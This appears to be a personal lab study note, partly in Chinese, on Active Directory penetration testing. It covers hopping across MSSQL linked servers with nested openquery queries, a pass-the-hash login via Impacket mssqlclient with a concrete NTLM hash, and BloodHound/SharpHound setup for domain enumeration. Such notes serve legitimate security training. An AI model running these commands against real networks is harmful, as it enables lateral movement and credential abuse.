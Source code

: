 	- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql
- 手動可以用 Hedisql
	- Network Type: `Microsoft SQL Server (TCP/IP)`
	- Use Windows authentication 
	- Trust Link
		- `SELECT * FROM master..sysservers`
		- `SELECT * FROM openquery("第一台", 'SELECT * FROM master..sysservers')`
			- 單雙引號有差
		- `SELECT * FROM openquery("dcorp-sql1", 'SELECT * FROM openquery("dcorp-mgmt", ''SELECT * FROM master..sysservers'')')`
			- ...... 一直下去，在 `'` 裡面要用到 `'` 就用兩個 (`''`)
- Impacket MSSQLClient
	- 如果直接登入怪怪的，可以試著 PTH 登入 (Mac 怪怪的就用 Kali)
		- `mssqlclient.py -windows-auth dcorp/student365@12.16.3.21 -hashes  :97f15786865912b818ca69b03f09d84f`


## Blood Hound
- Neo4j
	- neo4j-community-5.10.0
		- `neo4j.bat windows-service install`
		- `neo4j.bat start`
	- 會自動開啟 `http://localhost:7474`
		- 預設密碼 `neo4j` / `neo4j`
		- 修改成 `neo4j` / `1qaz@WSX`
- 目前最新版有一些 Bug，建議使用 4.0.3
- SharpHound
	- `Import-Module .\SharpHound.ps1`
	- `Invoke-BloodHound -CollectionMethod All`
